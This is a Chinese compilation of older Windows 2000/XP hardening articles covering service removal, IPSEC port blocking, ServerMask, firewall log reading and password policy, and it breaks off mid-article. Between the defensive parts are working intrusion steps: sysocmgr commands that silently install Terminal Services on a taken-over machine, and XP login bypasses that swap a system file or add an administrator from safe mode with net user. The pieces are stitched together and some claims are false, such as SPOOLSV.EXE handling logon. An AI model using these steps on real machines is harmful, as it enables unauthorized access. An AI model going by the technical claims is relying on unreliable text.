很多系统管理员都看过这些关于“安全配置”系统的文章，也有很多管理员参加了这样那样的培训，但只有一部分管理员会做这件事情。这是什么原因呢？因为这些文章很少告诉管理员哪些系统服务该关掉，哪些服务不应该关掉。而我们的管理员也并不知道该关掉哪个系统服务、该开哪个服务。

作为一个电脑管理员（特别是安全管理员），应该知道：“系统中多一个服务，就多一份被攻击的危险性。”所以，对于系统中一些并不常用到的服务我们必须关闭，甚至彻底从系统中删除。这里我列出几个较典型的系统服务，建议大家在没有需要的情况下将其删除或禁止。系统自带较为危险、有可能被黑客攻击、利用的服务有：

- **Messenger 服务**：该服务用来发送、接收信息服务。这个服务现在令微软很头痛，前段时间又出现了远程溢出漏洞，迫使微软不得不建议用户关掉该服务。我建议将该服务禁用或从系统中删除。
- **Indexing Service 服务**：索引服务。以前好像出过什么漏洞，建议将其删除或禁止使用。
- **Remote Registry Service 服务**：远程注册表管理服务。在没有特殊需要的情况下，建议禁用或删除该服务。
- **Task Scheduler 服务**：该服务是定时运行程序服务。据我所知，管理员并不怎么用这个服务，而这个服务倒常被黑客利用，建议禁用或删除该服务。
- **Telnet**：Telnet 服务。作为管理员如果没有特殊需要的话，建议删除服务，不要禁用。
- **Terminal Services 服务**：终端服务。如果你的机器没必要用到终端服务的话，建议你删除。这个服务是黑客的最爱。
- **IIS 服务**：该服务是微软的操作系统中漏洞出现得最多、最频繁、问题也最危险的一个服务。如果你的机器需要 IIS 对外提供 WEB 服务，建议安装微软的 Lockdown 工具，以及打最新的补丁。

### 2. 关闭微软默认开放的端口

以 Win2000 为例，系统一旦安装，它默认会打开 135、139、445 这三个端口，而这三个端口的安全性实在不敢让人恭维，它们正好是黑客攻击系统的主要利用对象。以往很多关于 NT 方面的入侵都跟它们有关。而从最近的溢出漏洞来看，也都是这几个端口惹的祸。对于一台服务器而言，是否真的需要开放这三个端口需要认真考虑。而作为个人用户而言，留着这三个端口无疑是祸根。

关闭端口的方法有很多种，但我推荐用 IPSEC 来关闭这三个端口：

1. 执行“开始→程序→管理工具→本地安全策略”，打开本地安全设置对话框。
2. 选“IP 安全策略，在本地机器”，在右边的空白处按右键，选“创建 IP 安全策略”。
3. 按照向导取名（如 Port），不选“激活默认响应规则”，完成。
4. 在属性对话框中执行“添加→下一步→下一步”，选“远程访问”（如果是单机，选“所有网络连接”）。
5. 添加 IP 筛选器列表，起名（如 135Port），设置源地址为“任何 IP 地址”，目标地址为“我的 IP 地址”，协议类型选“TCP”，端口选“从任意端口”到“此端口”135（图1）。


然后重复添加 135 端口的 UDP 协议及 139、445 端口的 TCP、UDP 协议。添加完成后，在“筛选器操作”中添加一个规则，命名为“阻止”，并选择“阻止”选项（图2）。


选中筛选器操作下面的“阻止”选项后，按“下一步→完成”回到刚才创建的“IP 安全策略”对话框。如果还需要添加其他安全策略，重复上面的步骤即可。在添加完所需的策略后，按“关闭”按钮回到“本地安全策略”对话框，选中刚创建的 IP 安全策略名称（如 Port），按右键选“指派”使其生效。

至此，我们在机器上利用 IP 安全策略关闭了 135、139、445 端口的对外开放。现在外面的机器无法找到我们机器的这些端口了。最近也有人建议将 593 端口也一并关闭，据说对 DCOM 有威胁，安全第一嘛，关闭了也没有问题。

> 注意：IP 安全策略有个镜像功能，比如你关闭了 135 端口，那么在默认情况下你也没有办法去访问别人的 135 端口。要将这一现象去除，选中 IP 筛选器列表里要修改的选项后，按“编辑”按钮进入，去除“镜像”这个勾选框（图3）。如果你的机器是服务器且没有特殊需要，建议不要去除镜像功能。

### 3. 开启防火墙

要彻底防住系统不被随意攻击成功，并不是关掉几个服务、屏蔽几个默认开放的端口就行了。一台放在因特网上的机器，给它加道防火墙是有必要的事情。防火墙安装完成还需要认真配置。

很多防火墙都分成几个安全级别。安全级别越高，应用程序运行时都会出现询问。我认为将安全级别调为中级或较低以方便管理并不可取。

> 经验建议：将整台机器在其他方面配置完成后，再安装防火墙，并将防火墙的安全级别调至最高级，然后再配置防火墙，打开对外服务的相关端口。

### 4. 及时升级补丁

这是一个古老的话题了。系统出了安全漏洞而没有及时打补丁，即使你的系统配置很高，安全性也只是暂时的。最近听说微软不会那么快推出关于 Win9X/2000 的补丁，甚至建议用户使用第三方防火墙。作为管理员，我们应该随时给系统加固！


本期的“傻瓜黑客”有篇“远程安装、替换终端服务一次搞定”（也是笔者写的），觉得很有必要说一下防范方面的知识。特别是最近微软的溢出漏洞频发，有这些漏洞的机器的终端服务又受到了攻击，你的机器是否处在危险边缘呢？

要防住终端服务不被非法安装，需要先了解黑客是如何在你的机器上安装终端服务的。知己知彼，才能有效防止。现在来看一下安装终端服务常用的几种方法：

### 一、本地 GUI 安装法

这就是在“添加/删除程序”下的“添加/删除 Windows 组件”安装终端服务，这是最原始的方法，但需要放入光盘才能完成安装。现在没有黑客用这个方法来给远程机器安装终端服务了。

### 二、本地命令行安装法

这个方法是利用了光盘中的安装工具 sysocmgr.exe 来实现安装的，只用到系统自带的工具，非常适合在没有其他工具的情况下安装终端。大家都知道，要安装终端服务除了需要具有 admin 或 system 权限外，还需要……权限外，还需要 telnet 到对方的机器（或在本机或通过其他方法获取对方机器上的一个 shell）上安装，它的安装语句如下：

```
echo [Components] > c:\backe
echo TSEnable = on >>c:\backe
sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\backe /q /r
```

当上面的命令执行完毕后，过一段时间 sysocmgr.exe 即完成对终端服务的安装，由于该安装方法不会弹出任何窗口，所以不用怕对方机器旁边是否有人。如果不怕重启对方机器的话，在最后一行可给它“/r”参数，使其安装完成后自动重启。

用这个方法有个缺点：它会在“添加／删除程序”下的“终端服务”下面的“启用终端服务”前打一个勾，较易被管理员发现。

## 三、3389自动安装程序法

3389 自动安装程序法要用到“与机无争”写的一个安装终端服务的程序，它必须将该程序复制到远程机器后才能进行安装，安装完成后会自动删除终端服务所有的快捷方式。

这个工具使用上比较简单，也没有较明显的缺点，就是有点大，将近 700K。这是因为该工具自带了安装终端服务所需要的文件。

另外，现在也有些网友重新写了几个与它类似的安装终端工具，只是个子要小得多。不过方法类似，在这里就不再多说了。

## 四、脚本安装法

我写的那篇“远程安装，替换终端服务一次搞定”用到的脚本就是现在要说的这个脚本，它是 zzevazzz 写的。

这个脚本最大的特点是：可远程或本地安装终端服务，安装时可更改终端服务的端口，是否重启机器，还利用了不依赖 IPC$ 开放与否的 WMI 技术来实现安装。所以，这是个功能特强、全面的终端服务安装工具（脚本），这是该工具的优势所在，也是它最危险、最有威胁的地方。现在它已被一些杀毒工具认为是病毒而进行追杀了。

另外，还有网友写了些与它类似、可远程安装终端服务的工具来供大家使用，但感觉上都是如出一辙，就不再一一介绍了。

好了，上面简单介绍了黑客较常用的安装终端服务的方法。现在我们来看看如何防住对方的攻击，其实，要守住终端服务不被非法安装，最重要的就是保护好自己机器的 admin 组及 system 组的权限不让对方拿到，一旦被对方拿到，要护住终端服务简直是有点螳臂当车。但无论如何，我们还是要守，不能给对方一种势如破竹的感觉。

## 五、防止黑客安装终端服务的方法

下面为大家介绍几种不让终端服务轻易让黑客安装成功的方法：

### 1. 删除终端文件

如果我们的机器确实不需要用到终端服务，就将终端服务所用到的文件删除。也许会有网友问：你那篇“远程安装，替换终端服务一次搞定”不是说不要删除系统自带的文件吗？没错，从一个黑客的角度来讲，删除系统自带的文件时，由于受系统文件保护机制的影响会弹出一个提示对话框，提示说系统文件被非法修改，要求放入系统安装盘进行修复。所以我不建议随便删除对方机器的系统文件，而现在我们的身份是管理员，删除这些文件是为了更好地保护我们的机器。所以，我上篇文章说的跟现在说的并不矛盾，因为是管理系统的身份不同了。

我们知道，终端服务所调用到的有 termsrv.exe、termmgr.dll 等文件，要删除这些文件必须先删除 c:\winnt\system32\dllcache 下的文件，然后再删除 c:\winnt\system32 下面的终端文件，顺序不要倒过来。

删除完终端服务所调用的文件后，我们用上面提到的后三种安装终端服务的方法试试，看是否可成功地对目标机器进行终端服务的安装。现在用自带有安装终端服务所需文件的 3389 自动安装程序（就是上面提到的第三种方法）来试试，看是否能安装成功，并启动终端服务。图 1 是该程序运行的结果。

图 1 显示该工具其在目标机器上成功安装了终端服务，现在我们重启该机器，看看终端服务是否能正常使用。

重启该机器，在未正式登陆之前系统就跳出一个对话框，提示某个服务运行出错（图 2）。

登陆完成后，我们打开事件查看器看看是哪个服务出了错，结果发现是终端服务出了问题，如图 3。

打开系统服务列表，也发现终端服务的启动方式是自动启动，但该服务并没有启动成功。这是因为终端服务找不到它所要调用的程序。这个自称自带安装终端所需文件的工具也没有自带终端服务所调用的程序，其他两个什么也不带的工具就更不用说了。

至此，删除终端服务所调用的文件这个方法可以保护终端服务不随便地被非法安装。但这个方法有一个缺点就是：当对方发现我们这个小聪明后，可复制相同的文件上来，以此终端服务启动时，列出终端服务又可以开始用了。或者用“远程安装、替换终端服务一次搞定”一文提到的替换方法，也可成功安装终端服务。

### 2. 删除终端服务

在日常使用中，系统中有些服务我们根本不会用到，但这些服务却往往会被黑客所利用，这不，终端服务就是一个。

如果我们的终端服务确实不需用到，建议将它从系统中彻底删除。只要它存在系统中，就有可能被黑客利用。现在我们来将它删除。删除系统服务的方法有几种，可直接删除注册表中相关的子键及信息，也可用 SC 工具来直接删除。由于 SC 删除系统服务是即时性的，在这里我们用 SC 来对终端服务进行删除。如图 4。

图 4 说是通过远程来删除终端服务。在删除完成后，我们利用终端安装工具对该机进行终端服务的安装，结果很出乎意料——每个终端安装工具都显示成功地安装了终端服务，但等机器重启后，发现终端服务并没有出现在系统的服务列表中。用 fport 等工具查程序、端口的情况，均无发现终端服务有关的进程及端口，不过终端服务在注册表中所调用的键项除 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService 子键外，其他的键项都被修复过。也就是说，安装终端的工具修改了注册表中的其他键项，但由于终端服务在注册表中对应的子键并不存在，而这些终端安装工具并不会自动创建该服务在注册表中的相关子键及键项，所以造成该服务表面上安装成功，但实际上由于没有启动程序的服务位置而没有正式启动。

从总的方面来看，这个方法还是可行的。

不过采用这个方法也有一个缺点：如果对方发现这个问题后，可通过在另一台机器中导出服务在注册表中的相关信息，然后再导入本机。机器重启后，该服务还存在、生效，不过还是会给黑客造成了一些麻烦。

### 3. 只读终端服务

这个鬼主意是 netff 出的，不过经实践操作后，觉得这个方法可行。在这里也一并提出来供大家参考。

不管本地安装终端服务还是远程安装终端服务，这些程序无一例外地要修改到注册表中的一些键项，但我们先不管它都修改了哪些键项，其中有一个子键是你怎么也躲不过的，那就是 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService 这个子键及其下面的键项。该子键下面的键项控制的正是系统终端服务的启动等相关信息，要安装、启动终端服务必须修改这里的某些键项的值。既然如此，我们就在这里做手脚，让对方不能修改。要让对方不能修改其实很简单，只需将该子键的属性设为只读或禁止所有人访问即可。现在开始行动！

用 regedt32 打开系统的注册表（注意一定要用 regedt32 打开），来到 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService 子键下，选中“安全”菜单下的“权限”选项，打开一个安全对话框，不选“允许将来自父系的可继承权限传播给该对象”前面的框。这时会弹出一个安全提示对话框，选择“复制”按钮。将右框中的所有的组都删除，然后添加“Everyone”组，将该组的权限设为“读取”或“拒绝全部完全控制”。不要理会所弹出的对话框，全部按“确定”退出。

这个方法能有效防止非法用户安装终端服务，只要不修改 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService 子键的存取权限，终端服务是不会轻易就被安装成功并启动的。

嘿嘿！用这个方法来玩对方，还真的能将对方玩得一头雾水。

### 4. 综合防范

上面提了几种防范终端服务被非法安装的方法，你认为哪种方法最好呢？

我认为将这几种方法合起来是最好的，即：删除终端服务所调用的程序文件，在系统中彻底删除终端服务。如果将 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services 子键的属性设为只读或让 system 组只具有对该子键进行读取的权限，而没有写入、修改的权限，那这个方法来对付机器被黑客溢出后，黑客试图安装些以服务方式运行的工具是非常有用的，也可防止黑客启动某些系统服务。但无论如何，操作系统自身的安全是最为重要的。注重局部的安全性并不能有效阻止黑客的进攻。

## 六、结语

好了，到现在为止，相信大多数读者已经明白了终端服务攻与防的一些方法与道理，如果还不是很明白，就多多加油吧！关于这个话题我就说到这里，有兴趣的朋友请补充。

此文三个防范方法中，其中一个是 netff 替我想到的，真的感谢他！

（本文用到的 sysocmgr.exe、SC 光盘中有收录）

## 用 ServerMask 修改 IIS 头信息

相信各位“黑友”在对别人的 WEB 服务器下手之前，第一件事情就是要判断对方 WEB 服务器的类型吧！一般是 Telnet 到服务器的 80 端口，如图 1。

看到了吗？图 1 中第二行的 “Microsoft-IIS/5.0” 就暴露了你的操作系统是 Windows，接下来就是扫描、找漏洞、找 exploit……那么，如何避免让对方得到我们的 http 头呢？用 ServerMask！

什么是 ServerMask 呢？它就是一款可帮助我们替换或者删除服务器 http 头的工具。装完 ServerMask 之后，看一下界面，如图 2。

很简洁哦！第一行不用说了，就是 ServerMask 的开关。“Web Server Masking” 这里是对 http 头的替换和删除，“Remove Server header” 就是删除 http 头。看看图 3 下拉框中的内容。

看到了吗？它可以模拟 Apache 对应 RedHat、Unix、Mac、Win32 的版本，还可以模拟 Lotus-Domino、Netscape-Enterprise 等服务器，是不是很爽？想想入侵者把你的 Windows 当成 Unix 横竖扫描不出结果时的惆怅样子吧……偷着乐了——

在高级掩码（Advanced masking）中，我们可进行修改 SMTP 的 banner，禁止 WebDav 等操作。不多说了，要不老编说我骗稿费，呵呵！

我们现在假设 http 头为 “Server: Apache/1.3.19 (Unix) (Red-Hat/Linux) mod_ssl/2.8.1 OpenSSL/0.9.6 DAV/1.0.2 PHP/4.0.4pl1 mod_perl/1.24_01”。试试看！选中后点击 “OK” 或者 “Apply” 会重新启动 IIS 服务，然后 telnet 到本机的 80 端口，如图 4。

呵呵！这下看谁还认为你的服务器是 Windows 的，无形之中就给我们的服务器多了一重保障，何乐而不为呢？还在犹豫什么？赶快 down 一个装上试试吧！

（本文用到的 ServerMask 光盘中有收录）

## 防火墙日志和日志分析

防火墙是放置在局域网与外部网之间的一个隔离设备，它可以识别并屏蔽非法请求，有效防止跨越权限的数据访问。由于网络安全性在防火墙系统上得到加强，而不是分布在内部网络的所有节点上，这就集中而且简化了局域网安全管理。但由于用户对防火墙的一些规则不太了解，常会出现下面的问题：“安全防火墙坏了，我是不是受到黑客攻击了？是否黑客已经入侵了我的电脑啊？”

日志功能是防火墙最常见的功能之一，它用于监控通信行为 and 完善安全策略，检查安全漏洞和错误配置，并对入侵者起到一定的威慑作用。防火墙日志可以说是一个“大拼盘”，其中有系统收到的各种不安全信息的时间、类型等，通过分析这些日志，可以发现曾经发生过或正在进行的系统入侵行为。防火墙日志并不复杂，但要看懂它还是需要了解一些基础概念（如端口、协议等），尽管各种防火墙日志不一样，但在记录方式上大同小异，主要包括：时间、允许或拦截、通讯类型、源 IP 地址、源端口、目标地址和目标端口等。

通过防火墙建立一个完整的连接后，这个连接包含一对 IP 地址和一对相应的端口。当防火墙拦截某个连接时，它会将目标端口记录下来，因此，我们经常会在防火墙日志中看到“阻挡来自 XX 端口的连接”。那么，到底哪些端口更容易受到攻击呢？

### 1. 端口的类型

端口包括公认端口、注册端口、动态/私有端口这三大类。其中公认端口（Well Known Ports）的范围是从 0 到 1023，它们紧密绑定于一些服务，通常这些端口的通讯明确表明了某种服务的协议。如 80 端口实际上总是 HTTP 通讯。注册端口（Registered Ports）的范围是从 1024 到 49151，它们被固定地绑定于一些服务，即有许多服务绑定于这些端口，其中还有一些端口用于其它目的，如许多系统也把动态端口从 1024 左右开始。动态／私有端口（Dynamic and/or Private Ports）的范围从 49152 到 65535。

### 2. 防火墙日志常见端口分析

- **21 (ftp)**：表示攻击者试图打开“anonymous” FTP 服务器。攻击者进入这些服务器中带有可读写的目录，并将其作为传送私有程序的节点。
- **23 (Telnet)**：表示攻击者试图搜索提供远程登陆的 UNIX/Windows 的服务。大多数情况下入侵者扫描这一端口是为了找到机器运行的操作系统。此外使用其它破解技术，入侵者会找到密码。
- **25 (SMTP)**：表示攻击者试图寻找 SMTP 服务器。他们拨号连接到高带宽的 E-mail 服务器上，将简单的信息传递到不同地址。SMTP 服务器是进入系统的最常用方法之一，因为它们必须完整地暴露于 Internet，而且邮件的路由很复杂。
- **53 (DNS)**：表示攻击者试图进行区域传递（TCP），欺骗 DNS（UDP）或隐藏其它通讯。因此防火墙常常过滤或记录 53 端口。需要注意的是，你常会看到 53 端口作为 UDP 源端口，不稳定的防火墙通常允许这种通讯并假设这是对 DNS 查询的回复，很多攻击者常使用这种方法穿透防火墙。
- **79 (finger)**：可用于查询操作系统，探测已知的缓冲区溢出错误，获得用户信息，回应从自己机器到其他机器 finger 扫描。
- **110 (POP3)**：用于客户端访问服务器端的邮件服务。POP3 服务有许多公认的弱点，关于用户名和密码交换缓冲区溢出的弱点至少有 20 个，这样，攻击者可在真正登陆前进入系统，而成功登陆后还有可能找到其他缓冲区溢出漏洞。
- **139 (NetBIOS文件和打印共享)**：通过这个端口进入的连接试图获得 NetBIOS/SMB 服务。这个协议被用于 Windows “文件和打印机共享”，而在 Internet 上开放自己的硬盘是个很容易被攻击者利用的漏洞。
- **161 (SNMP)**：这也是入侵者经常探测的端口，SNMP 允许远程管理设备。所有配置和运行信息都储存在数据库中，通过 SNMP 可获得这些信息。如果将它们暴露于 Internet，则有可能被别人作为缺省的密码访问系统。
- **27910~27961**：很多游戏在这些端口运行其服务器。因此来自这一端口范围的 UDP 包通常是游戏发出的。

## 三、防火墙常见日志判断

由于定义了一套安全模式，防火墙会把所有不合规则的数据包拦截并记录到日志中，如果我们选择了监视所有 TCP 和 UDP 数据包，那你发送和接收的每个数据包都将被记录。下面是很多防火墙上比较通用的“日志”信息。

### 1. 尝试用 Ping 来探测本机

> [11:11:11] xxx.xxx.xxx.xxx 尝试用 Ping 来探测本机，该操作被拒绝。

出现这条日志说明可能有人用 Ping 命令发送数据包来探测你是否开机并连接在网络上，其实不用担心，防火墙已经拦截了数据包。由于使用 Ping 命令去探测其他机器时，如果那台机器安装了 TCP/IP 协议，就会返回一个回应 ICMP 包，该规则允许这种 ICMP 包返回到你的机器，这样就可用 ping 命令探测其他机器了。但在安装防火墙之后，即使电脑连接了网络，黑客 Ping 的结果也会显示数据包无法到达，这样就会起到迷惑黑客的作用。

如果有多台不同 IP 的计算机试图利用 Ping 来探测本机，表明日志中所列机器感染了“冲击波”病毒。感染了“冲击波杀手”的机器会通过 Ping 网内其他机器的方式来寻找 RPC 漏洞，一旦发现，即把病毒传播到这些机器上。

### 2. 试图连接本机的 Http 端口或 FTP 端口

> [11:11:11] xxx.xxx.xxx.xxx 试图连接本机的 Http[80]端口，TCP 标志：S，该操作被拒绝。

表示黑客扫描你是否开放了 80 端口，这些可用来判断你是否开放了 WEB 服务，从而寻找相应的漏洞来进行入侵。

如果你安装了 IIS 并开放了 WEB 服务，并非只开放 80 端口。不过一般我们所遇到的大都是别人的扫描行为，不需过于担心。如果在防火墙日志中，连续某个时刻有来自于 IP 地址为 xxx.xxx.xxx.xxx 的用户试图连接你的电脑，并扫描你的电脑是否开放了 80 端口，或者经常收到来自外部 IP 高端口类似 TCP 的连接请求，就要小心对方电脑是否中了病毒，也有可能是有人使用软件攻击。如果担心自己的 Web 服务器被病毒入侵，可在服务器上安装防火墙，并设置应用程序规则进行拦截。

试图连接 FTP 端口的日志如下：

> [11:11:11] xxx.xxx.xxx.xxx 试图连接本机的 FTP Open Server[21]端口，TCP 标志：S，该操作被拒绝。

这条记录出现的大部分原因是一些网虫在使用 FTP 搜索软件看哪些电脑开放了 FTP，以寻找软件、电影的下载。FTP 服务是可以匿名登录的，而且在有的机器上它还允许你执行远程命令，比如 CWD，如果你能 CWD /ROOT 成功，那就可获得最高权限了。

### 3. 试图连接本机的 139 端口

> [11:11:11] xxx.xxx.xxx.xxx 试图连接本机的 NetBIOS[139]端口，TCP 标志：S，该操作被拒绝。

## 让 Windows XP 密码防线更加牢固

为维护用户自身利益、防止计算机资源被他人非法使用和盗取等目的，使用密码保护是业主们最直接的手段。作为计算机的主人，当然希望自己的计算机安全系数高一些！虽说漏洞满天飞的 Windows 频频被病毒攻击，但 Windows 操作系统还是以绝对优势占据着市场。

对于 Windows 计算机的内部管理（如公用计算机、设置多用户的 Windows 等），密码无不充当着抵挡非法用户的第一道“防火墙”，但是你又是怎样给 Windows 设置密码的呢？以 Windows XP 为例，大多数人仅仅是在“控制面板→用户帐户”中使用一个自己认为难以破解的密码！其实，要坚固 Windows XP 的密码防线，还要有一些必须条件，下面两个“案例”足以体现出来！

## 案例一：通过替换密码管理文件入侵 Windows XP

### 入侵可行性分析

Windows XP 是通过 “SPOOLSV.EXE” 进程（图 2）管理 Windows XP 登录的，每次登录系统时，系统首先调用 “SPOOLSV.EXE” 进程检验当前系统是否使用密码。对于未设置登录密码的帐户，“SPOOLSV.EXE” 进程记住后来用自动登录方式，即跳过密码检测步骤。所以此案例入侵的成功性非常高！


图 2

### 入侵全过程

- 1. 找一台没有设置密码的 Windows XP 系统，进入 XP 系统盘的 `\Windows\system32` 子系统目录，把其中名为 “SPOOLSV.EXE”（50KB）的文件拷贝到软盘或闪存里（图 3）。


图 3

**友情提醒：**
如果未在 “\Windows\system32” 文件夹中找到指定文件，则说明当前系统隐藏显示系统文件，在资源管理器中，点击菜单“工具→文件夹选项”，在“查看”标签页中撤消“隐藏受保护的操作系统文件（推荐）”复选框，并将“隐藏文件和文件夹”选择为“显示所有文件和文件夹”状态。

- 2. 准备好密码文件后，先确认待入侵的 Windows XP 的文件系统，如果是 FAT32，那么将非常方便，只需找一张启动盘，把软盘中的“SPOOLSV.EXE”文件拷贝到目标 XP 系统分区的“\Windows\system32”文件夹，覆盖即可。如果是 NTFS 文件系统，案例一已提及通过 NTFS for DOS 访问。当然，如果是 NT 多系统共存，也可进入其它系统替换，反正最终目的是成功替换 “SPOOLSV.EXE” 文件。

- 3. 替换文件后，以正常方式启动 Windows XP，一会儿后你会发现可以不用输入密码直接进入 Windows XP 桌面（多用户的 XP 系统会选择一个用户登录），成功入侵。

### 入侵后遗症

虽然本案例可以成功进入 Windows XP，但切换或注销用户后将要求输入密码。换句话说，其实只是使系统启动跳过登录窗口，一旦激活登录窗口（切换或注销用户），就正常执行密码检测步骤。另外，它将破坏系统的休眠功能。

### 防范措施

注意一下案例二的“防范建议一”，给入侵带来了些麻烦；启用 Windows XP 的密码策略功能，即本文的主题。

## 案例二：利用 net 命令漏洞添加用户登录入侵 Windows XP

### 入侵可行性分析

Windows XP 系统分区文件系统为 FAT32 格式，待入侵的 Windows XP 系统已创建的超级管理员帐户名称中没有汉字。

### 入侵全过程

- 1. 开机启动 Windows XP，当屏幕显示“正在启动 Windows XP”时，按 F8 键调出系统启动选择菜单，选择“带命令行的安全模式”命令项；
- 2. 一会儿后，会列出 Administrator 和其他用户的选择菜单，选择 “Administrator” 后回车，进入命令行模式；
- 3. 键入命令 `net user USERa 123456 /Add`，回车后，系统自动添加以 “USERa” 为名称、密码为 123456 的用户。如果系统中已经存在 USERa 用户，那么也可以将现有 USERa 用户内的密码更改为 123456。要注意的是，无需输入原密码就可以更改；
- 4. 接着使用 `net localgroup administrators USERa /Add` 命令提升 USERa 用户为管理员级别，即拥有所有权限操作系统；
- 5. 最后一步就是重新启动计算机，在登录窗口中使用新增的帐户，输入刚刚更改的新密码，已经成功登录。

### 防范措施

**防范建议一：** 尽量用 NTFS 文件系统安装 Windows XP，虽然 NTFS 在纯 DOS 状态可以通过 NTFS for DOS 工具来访问，但这比给入侵增加了一些难度。如果你的 Windows XP 分区文件系统格式为 FAT32，可以按以下操作将其转换成 NTFS 格式：

- （1）点击“开始→运行”，在弹出的窗口中输入 `cmd`，然后回车；
- （2）在新打开的“命令提示符”窗口中输入 `convert C: /FS:NTFS`（假设这里的 XP 系统所在分区是 C 盘），回车后，系统即检测当前分区文件系统，一会儿后提示输入卷标，原先分区有卷标则输入与原先相同的卷标，回车后即开始转换文件系统。


图 1

- （3）转换成功后，在资源管理器中选中 C 盘，然后点击鼠标右键，选择“属性”命令。在“C 盘 属性”窗口中选中“启用压缩节省磁盘空间”复选框，点击“确定”按钮后，系统即开始压缩 C 盘文件。一会儿会弹出一些文件正在使用警告框，选择“全部忽略”即可。

**防范建议二：** 给 “Administrator” 名称的管理员帐户应用密码，或修改此帐户名称，具体方法后文将提及；另外，创建的管理员帐户最好包含汉字，目的是给入侵者输入过程带来麻烦。

---

## 坚固 Windows XP 密码防线

通过以上两个案例，似乎感觉到 Windows XP 的密码形同虚设。其实这只是 Windows XP 默认设置密码步骤隐藏的危险，通过其定义更安全的密码规则，用到的是系统的“本地安全设置”工具，我们完全可以坚固 Windows XP 密码防线。

### 1. 运行“本地安全设置”工具

点击“开始→运行”，在弹出窗口中输入 `secpol.msc` 激活它。在主窗口的左侧目录树依次展开“帐户策略→密码策略”，我们要定义的密码规则就在右侧面板显示的选项里（图 4）。


图 4

### 2. 配置密码规则各选项

（1）首先在图 4 中双击“密码必须符合复杂性要求”，将安全设置设为“已启用”。此时用户在“控制面板→用户帐户”中创建的密码必须包含大小写英文、阿拉伯数字及特殊字符（如标点符号、!@#$%^& 等）三种类型字符，如果未包含其中一种字符，将会弹出对话框提示。

测试密码安全的条件：
- ①不以自己的名称、生日和从词典中查找到的简单单词或数字作为密码的全部组成部分；
- ②在自己的密码中加入特殊字符，如“+”、“-”、“*”、“/”等，必要的话，可以交替大小写，虽然大部分程序支持汉字作为密码，但由于输入的弊端（即在其它文本框中输入汉字，采用剪贴/拷贝的方法输入），建议还是不要使用汉字密码。

如果你觉得这样创建密码简单，但不容易记住，那么可以尝试这种方法：首先造一句自己非常熟悉易记的英文句子，可以是名言名句或者如 “Hello! Is it my Password?” 类似的句子。这样，我们就可以按部就班拼出 “H!IimPw?” 的简短密码。在输入密码时，在心中默念这个句子（千万别读出声哦！），输入其中的关键字即可。

（2）密码长度最小值（图 5）：用户创建密码的最小位数，可以输入 0 至 14 之间的阿拉伯数字。0 表示不要求检测创建的密码长度。一旦用户创建的密码不满足要求的位数，系统也将弹出对话框警告；


图 5

（3）密码最长存留期（图 6）：这个选项比较有意思，是设置密码的过期时间，即在指定的周期时间内必须更换一次符合要求的新密码。当然，设置为 0 则表示密码永久不作废，最长的周期时间是 999 天；

（4）密码最短存留期（图 7）：与“密码最长存留期”选项正对，即设置密码存活的最少时间，在这段时间内，用户不允许更改密码。同样，设置为 0 可以随时更改密码，密码可存活的最长时间是 998 天；


图 6

图 7

（5）强制密码历史（图 8）：频繁更改密码，必然产生多个不同的密码，而此时系统会帮你“记忆”曾经使用过的密码。设置数值表示不用系统保留密码历史，系统最多也只能帮你记忆 24 个密码历史，原来系统的记忆力也有限制的^_^；


图 8

（6）为域中所有用户使用可还原的加密来储存密码：为保证密码安全，建议停用此功能。

清楚了各选项的具体意思和范围后，我们就可以灵活定制密码规则了，笔者这里提供一个参考方案：密码复杂性要求启用、密码长度最小值设为 8 个字符、强制密码历史设置为 0 后，接着确定密码最长存留期，一般将最长存留期设为最短存留期的 2 至 3 倍，如最长存留期设为 30 天，那么最短存留期可以设为 10 天，这样比较合理。

### 3. 重命名系统管理员帐户

Windows XP 默认的系统管理员帐户名称是 “Administrator”（即所谓的真正的系统管理员账户），不少系统高手建议用户给这个帐户设上密码，原因是该帐户在正常系统状态下是隐藏的，而在安全模式里，该帐户毅然出现在登录画面里。在未设置密码的情况下，当然是不用密码就可以“闯入”系统。在“本地安全设置”里，我们可以重命名系统管理员账户名称，在左侧目录树中展开“本地策略→安全选项”，双击右侧面板的“帐户：重命名系统管理员帐户 Administrator”，在弹出窗口中可以输入新的系统管理员账户（图 9）。


图 9

不过经测试几次，新的系统管理员帐户名称不能是当前登录的管理员帐户名称，否则弹出如图 10 所示的“未能保存本地策略数据库”错误对话框。


图 10

### 小结

本文主要向读者提个醒，用好 Windows XP 系统的密码策略。如果要防止本文列出的两个“案例”入侵，建议将 Windows XP 的分区文件系统转换为 NTFS，并时时注意 Windows XP 的安全补丁包，如最近发布的 SP2，极大增强了系统安全，这份大餐可别错过！

---

### Windows XP 在新装安装使用 Administrator 帐户登录技巧

其实，早在安装 Windows XP 系统时，创建的帐户昵称不允许为 Administrator 和 Guest 名称。如果你和笔者一样，想使用 “Administrator” 帐户昵称，此时不必在帐户昵称中输入任何字符，直接冷启动系统。重新启动后，Windows XP 已经跳过帐户昵称步骤，直接以 Administrator 帐户登录系统。

---

## 让你的 FTP 服务不再匿名

FTP（文件传输协议）一直以来都是 Internet 上最重要也是使用最广泛的一种功能，早在上世纪 70 年代初 FTP 就出现了，这远比 WEB 服务的诞生要早。

FTP（文件传输协议）有效地解决了人们在不同操作系统间进行文件传输的需求。目前在因特网上，提供 FTP 服务的主机相当多，而这些当中又有相当一部分提供了匿名登录。当然，这样的情况也是很早就有了，只是一直以来没有发生特别严重的安全事件。直到前些日子人们从 Serv-U FTP（目前在 Windows 系统上使用非常广泛的一种 FTP 服务器组件）中发现了严重的远程溢出漏洞，远程入侵者只需拥有一个可登录的帐号（包括匿名帐号），而不必拥有写或执行的权限，就极有可能对存在该漏洞的 Serv-U FTP 服务器进行远程溢出攻击。关于 Serv-U FTP 的远程攻击的文章诸位大概并不陌生，这儿就不细说了。

